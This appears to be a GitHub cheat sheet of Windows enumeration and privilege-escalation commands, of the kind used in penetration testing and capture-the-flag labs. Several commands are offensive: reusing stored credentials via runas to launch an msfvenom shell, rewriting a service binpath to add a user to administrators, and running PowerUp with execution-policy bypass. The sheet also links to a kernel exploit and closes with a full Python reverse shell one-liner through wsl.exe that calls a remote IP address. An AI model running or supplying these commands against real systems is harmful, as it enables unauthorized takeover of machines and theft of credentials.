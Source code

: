 # Windows Enumeration

| Command | Summary |
| ---------------------------- | ---------------------------- |
| ```dir <name of file> /s /p``` | Search the file system, recursively for the filename |
| ```whoami /priv``` | Gets the privileges for current user context |
| ```more < name_of_alternate_data_stream.txt``` | Returns the contents of the alternate data stream | 
| ```cmdkey /list``` | We may get lucky and find stored credentials |
| ```runas /savecred /user:DOM.LOCAL\Administrator "C:\Users\<user>\Documents\shell.exe"``` | If the user is storing creds, launch an msfvenom shell | 
| ```accesschk64.exe -wvu <file.exe>``` | This will check the files access writes |
| ```icacls.exe <filename.txt>``` | Does the same thing as accesschk64.exe but is native to OS |
| ```accesschk64.exe -uwcv Everyone *``` | Searches the file system for world-writeable service binaries |
| ```accesschk64.exe -uwcv <service name>``` | Once you identify a service, get more detail by searching for the single service name |
| ```sc query <service name>``` | We can gather the binmary path name by using the sc query command |
| ```sc config <service name> binpath= "net localgroup administrators <username> /add"``` | Modify binpath |
| ```powershell.exe -nop -ep bypass . .\PowerUp.ps1``` | With modified PowerUp.ps1, will run as you invoke program |
| ```wmic product get name,version``` | Uses WMI to get installed software |
| ```Get-ChildItem -Hidden -Path C:\Users\username\Desktop\``` | Searches directory for hidden files | 
| ```wmic service where "name like 'service name'" get Name,PathName``` | Uses WMI to get service information | 
| ```Get-Service \| where-object Name -match 'Service Name' ``` | Using Powershell search for service information |
| ```Get-Process -Name name-of-process``` | Using Get-Process find process PID | 
| ```netstat -noa \|findstr "LISTENING" \|findstr "1337"``` | Using the PID of the process, find out what port its running on | 
 
| Check | Description |
| ---------------------------- | ---------------------------- |
| PowerShell IWR vs IEX | Be sure to remember IEX will run the script in memory, useful for loading SharpHound.ps1 remotely |
| What tokens are on machine | If there tokens on the machine, you may be able to switch into that user, and elevate privileges |
| Check for autoruns | These are programs that can run with elevated permissions. If they have execissive permssions (EVERYONE) you can replace the binary and elevate access |
| Check for Binary Path issues| See command above, its important that we can restart these services to affect them |
| If Binary Path has issue | We can modify the path to our malicious payload, add your self to Administrators group, or use other techniques |
| Check with PowerUp.ps1 | Make sure you have modified the script to Invoke-AllChecks |
| Older Windows OS Win7, Win2008 | Check MS10-059 (Chimichurri) ```https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059``` |
| Be sure to check program files and (x86) | Enumerate all of the software that might be loaded on the machine |

## Common Location for WSL.exe
```
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe
```

## Python Reverse Shell with WSL.exe
```
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.19",12345));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

## Windows Kernel Exploits
- [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059)